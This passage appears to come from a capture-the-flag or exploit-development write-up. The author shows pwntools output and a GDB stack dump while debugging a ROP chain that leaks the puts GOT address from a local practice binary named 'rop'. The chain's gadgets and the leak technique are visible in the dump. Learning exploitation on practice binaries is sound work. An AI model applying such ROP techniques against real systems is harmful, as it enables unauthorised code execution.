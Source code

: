 This is what the output looks like when I run `localLeak()`
```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ python3 RPP_Pwn_2.py
[+] Starting local process './rop': pid 102415
/home/kali/Desktop/6-Week/ROP-Pop-Pop/RPP_Pwn_2.py:84: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("tools..")
0x4004c0
0x601018
[+] Starting local process '/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop': pid 102417
[*] Switching to interactive mode


[*] Got EOF while reading in interactive
$ 
[*] Process './rop' stopped with exit code -11 (SIGSEGV) (pid 102415)
[*] Got EOF while sending in interactive
[*] Stopped process '/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop' (pid 102417)
```

I get more information running it in a GDB session:
At the breakpoint right before `main` returns, the register values are as expected (though I assume overwriting `rbp` like that will mess me up eventually). 
We can see the payload data in the stack and we can see that after `main` returns it will jump to my `ret` gadget at `0x4004a9`
```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ python3 RPP_Pwn_2.py
 p.recvuntil("tools..")
0x4004c0
0x601018
[+] Starting local process '/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop': pid 98993
[*] Switching to interactive mode


Breakpoint 1, 0x000000000040064a in main ()
registers ────
$rax   : 0x00007fffffffdd70  →  0x6161616261616161 ("aaaabaaa"?)
$rbx   : 0x00007fffffffdea8  →  0x00007fffffffe21e  →  "/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop"
$rcx   : 0x00007ffff7f9eaa0  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x00007fffffffdd98  →  0x00000000004004a9  →  <_init+25> ret 
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00000000006022a1  →  0x6361616162616161 ("aaabaaac"?)
$rdi   : 0x00007ffff7fa0a40  →  0x0000000000000000
$rip   : 0x000000000040064a  →  <main+41> ret 
$r8    : 0x00000000006022e9  →  0x0000000000000000
$r9    : 0x0               
$r10   : 0x1000            
$r11   : 0x246             
$r12   : 0x0               
$r13   : 0x00007fffffffdeb8  →  0x00007fffffffe248  →  "SHELL=/usr/bin/zsh"
$r14   : 0x0               
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000

stack ────
0x00007fffffffdd98│+0x0000: 0x00000000004004a9  →  <_init+25> ret      ← $rsp
0x00007fffffffdda0│+0x0008: 0x00000000004006b3  →  <__libc_csu_init+99> pop rdi
0x00007fffffffdda8│+0x0010: 0x0000000000601018  →  0x00007ffff7e40b00  →  <puts+0> push r14
0x00007fffffffddb0│+0x0018: 0x00000000004004c0  →  <puts@plt+0> jmp QWORD PTR [rip+0x200b52]        # 0x601018 <puts@got.plt>
0x00007fffffffddb8│+0x0020: 0x00007fffffffde00  →  0x0000000000000000
0x00007fffffffddc0│+0x0028: 0x00007fffffffdea8  →  0x00007fffffffe21e  →  "/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop"
```